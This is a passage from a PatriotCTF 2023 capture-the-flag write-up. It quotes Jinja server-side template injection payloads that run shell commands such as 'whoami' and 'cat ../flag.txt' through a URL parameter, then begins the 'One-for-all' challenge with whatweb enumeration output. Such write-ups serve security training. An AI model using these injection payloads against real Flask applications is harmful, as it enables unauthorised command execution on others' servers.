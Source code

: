 > [!NOTE] 
> Other ways from official writeups
> ```python
> http://127.0.0.1:5000/{{url_for.__globals__.os.__dict__.popen(request.args.file).read()}}?file=whoami
> 
> http://chal.pctf.competitivecyber.club:5555/{{url_for.__globals__.os.__dict__.popen(request.args.file).read()}}?file=cat ../flag.txt
> ```
## One-for-all

### Info

One four all or all four one?

Find all 4 parts of the flag, ez right?

_Flag format: PCTF{}_

_Author: @sau_12_

[http://chal.pctf.competitivecyber.club:9090/](http://chal.pctf.competitivecyber.club:9090/)
### Solve

#### Enum

![](attachment/78b42a7d08dd6235f315c9de323998be.png)

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/patriotctf2023/nuclei_9090]
└─$ whatweb -a 3 http://chal.pctf.competitivecyber.club:9090/
http://chal.pctf.competitivecyber.club:9090/ [200 OK] Cookies[name], Country[UNITED STATES][US], HTML5, HTTPServer[Werkzeug/2.3.7 Python/3.11.5], IP[184.72.110.40], Python[3.11.5], Werkzeug[2.3.7]
```

